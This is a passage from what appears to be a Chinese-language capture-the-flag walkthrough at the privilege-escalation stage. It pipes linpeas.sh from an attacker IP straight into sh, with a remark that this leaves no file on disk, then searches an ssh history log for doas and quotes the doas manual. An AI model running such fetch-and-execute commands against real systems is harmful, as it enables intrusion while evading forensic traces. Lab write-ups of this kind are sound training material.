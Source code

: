 直接把curl的response pipe到sh，才不會在disk留下檔案

```bash
curl 10.10.14.45/linpeas.sh | sh
```

查看ssh history log

```bash
┌──(root㉿kali)-[~]
└─# less -r ssh_history.log 
```


### Doas

根據之前的 [#Enum 階段](#Enum) 與 `linpeas` 的output可發現此工具

```bash
┌──(root㉿kali)-[~]
└─# cat ssh_history.log|grep doas -E3
```

![](/assets/obsidian/9aca39cf88bfa9251068b62b0de7fadb.png)

先看看 `doas` 的manual

```css
man doas
...
DESCRIPTION
     The doas utility executes the given command as another user. 
...
EXIT STATUS
     The doas utility exits 0 on success, and >0 if an error occurs.  It may fail for one of the following reasons:

     •   The config file /usr/local/etc/doas.conf could not be parsed.
```
